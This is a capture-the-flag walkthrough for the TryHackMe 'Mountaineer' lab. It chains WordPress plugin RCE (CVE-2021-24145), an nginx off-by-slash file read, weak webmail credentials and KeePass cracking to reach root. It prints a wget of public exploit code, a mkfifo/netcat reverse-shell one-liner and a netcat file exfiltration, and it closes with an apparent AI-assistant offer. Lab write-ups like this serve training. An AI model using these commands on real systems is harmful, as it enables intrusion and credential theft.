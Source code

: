 # TryHackMe: Mountaineer

---

Mountaineer was an interesting box that started with discovering a WordPress instance running a plugin vulnerable to authenticated RCE. Using the nginx off-by-slash vulnerability, I was able to read files on the server, which revealed a vhost hosting Roundcube. By logging into Roundcube with guessable credentials, I found WordPress creds and some user info. Using the creds, I exploited the vulnerable plugin to get a shell as `www-data`.

Later, I found a KeePass database belonging to a user I had info on. By generating a targeted wordlist, I cracked the master password for the database, which gave me creds for another user. Checking their bash history revealed the `root` password, allowing me to complete the room.

Finally, I’ve also documented how the nginx off-by-slash vuln can be combined with WordPress password reset to gain a foothold.

---

## Room Link

[TryHackMe Mountaineer](#)

---

## Initial Enumeration

### Nmap

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.146.154
```

**Ports open:**

* 22 (SSH)
* 80 (HTTP)

Visiting `http://10.10.146.154` showed the default nginx page.

---

## Shell as www-data

### Enumerating WordPress

Using `ffuf`, I found `/wordpress/`:

```bash
ffuf -u 'http://10.10.146.154/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fs 162
```

Since resources loaded under `mountaineer.thm`, I added:

```
10.10.146.154 mountaineer.thm
```

to `/etc/hosts`.

---

### WPScan Enumeration

```bash
wpscan --url http://mountaineer.thm/wordpress/ -e ap,vt,tt,cb,dbe,u,m
```

**Users discovered:**

* admin
* everest
* montblanc
* chooyu
* k2

**Plugin discovered:**

* Modern Events Calendar Lite 5.16.2

**Vulnerabilities:**

* CVE-2021-24946 (unauth blind SQLi, not useful for creds)
* CVE-2021-24145 (auth RCE via arbitrary file upload)

---

## Nginx Off-By-Slash

Fuzzing `/wordpress/` revealed `/wordpress/images/`, which was exploitable via:

```
/wordpress/images../.
```

to read server files. Extracted:

* `adminroundcubemail.mountaineer.thm`

Added to hosts:

```
10.10.146.154 adminroundcubemail.mountaineer.thm
```

---

## Roundcube Access

Navigated to `http://adminroundcubemail.mountaineer.thm` and brute-forced weak creds. Logged in using:

```
k2:k2
```

* Found password in inbox
* Found `lhotse` user info in sent items

---

## Exploiting CVE-2021-24145

Logged into WordPress as `k2`, used:

```bash
wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py
python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p <password>
```

Confirmed shell upload:

```
http://mountaineer.thm/wordpress/wp-content/uploads/shell.php
```

Got reverse shell as `www-data`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my-ip> 443 >/tmp/f
```

---

## Shell as kangchenjunga

### Finding KeePass Database

Found `Backup.kdbx` in `/home/lhotse/`, readable by `www-data`. Transferred via:

```bash
nc -lvnp 444 > Backup.kdbx
nc <my-ip> 444 < /home/lhotse/Backup.kdbx
```

---

### Cracking KeePass

Generated hash:

```bash
keepass2john Backup.kdbx > keepass_hash
```

Default lists failed, so generated targeted wordlist using `cupp`:

```bash
cupp -i
```

Cracked using:

```bash
john keepass_hash --wordlist=mount.txt
```

Recovered master password, opened in `kpcli`, retrieved `kangchenjunga` creds.

---

### SSH Access

```bash
ssh kangchenjunga@mountaineer.thm
```

Found first flag:

```
/home/kangchenjunga/local.txt
```

---

## Root Access

### Checking Bash History

Found note in `mynotes.txt` that root used this user’s account. `.bash_history` contained:

```
suroot
<root-password>
```

Switched to root:

```bash
su - root
```

Read final flag:

```
/root/root.txt
```

---

## Alternative Foothold: Password Reset + Off-By-Slash

1. Use **WordPress password reset** for `admin`.
2. Exploit nginx off-by-slash to read `/var/mail/www-data` and get the reset link.
3. Reset admin password.
4. Use CVE-2021-24145 or plugin upload to get `www-data` shell.

---

## Notes

✅ Demonstrated multiple foothold paths
✅ Practical off-by-slash exploitation and KeePass cracking
✅ Covered complete path to root

---

If you need, I can generate this as a **clean PDF for your TryHackMe collection** for easy review and print-friendly offline study.
